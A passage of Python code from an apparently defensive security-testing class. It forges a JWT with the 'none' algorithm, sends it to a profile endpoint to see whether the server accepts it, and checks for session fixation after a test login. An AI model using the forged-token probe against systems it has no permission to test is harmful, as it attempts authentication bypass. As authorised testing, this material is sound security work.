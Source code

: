 ```python
        return None
    
    def test_jwt_algorithm_confusion(self, token):
        """Test for JWT algorithm confusion attacks"""
        print("\n[+] Testing JWT algorithm confusion...")
        
        try:
            # Get the original payload
            payload = jwt.decode(token, options={"verify_signature": False})
            
            # Test 'none' algorithm
            none_token = jwt.encode(payload, '', algorithm='none')
            
            # Test the none token
            test_response = self.session.get(
                f"{self.base_url}/api/users/profile",
                headers={'Authorization': f'Bearer {none_token}'}
            )
            
            if test_response.status_code == 200:
                print("  🚨 ALGORITHM CONFUSION: 'none' algorithm accepted")
                return {
                    'vulnerability': 'none_algorithm_accepted',
                    'malicious_token': none_token,
                    'response': test_response.json()
                }
            
            print("  ✓ 'none' algorithm properly rejected")
            return None
            
        except Exception as e:
            print(f"  ✗ Error testing algorithm confusion: {e}")
            return None
    
    def test_session_fixation(self):
        """Test for session fixation vulnerabilities"""
        print("\n[+] Testing session fixation...")
        
        # Step 1: Get a session before authentication
        pre_auth_response = self.session.get(f"{self.base_url}/api/health")
        pre_auth_cookies = self.session.cookies.get_dict()
        
        # Step 2: Authenticate
        login_data = {"email": "test@example.com", "password": "password123"}
        auth_response = self.session.post(f"{self.base_url}/api/auth/login", json=login_data)
        
        if auth_response.status_code == 200:
            post_auth_cookies = self.session.cookies.get_dict()
            
            # Check if session ID changed after authentication
            session_changed = False
            for cookie_name in pre_auth_cookies:
                if cookie_name in post_auth_cookies:
                    if pre_auth_cookies[cookie_name] != post_auth_cookies[cookie_name]:
                        session_changed = True
                        break
            
            if not session_changed:
                print("  🚨 SESSION FIXATION: Session ID not regenerated after login")
                return {
                    'vulnerability': 'session_fixation',
                    'pre_auth_cookies': pre_auth_cookies,
                    'post_auth_cookies': post_auth_cookies
```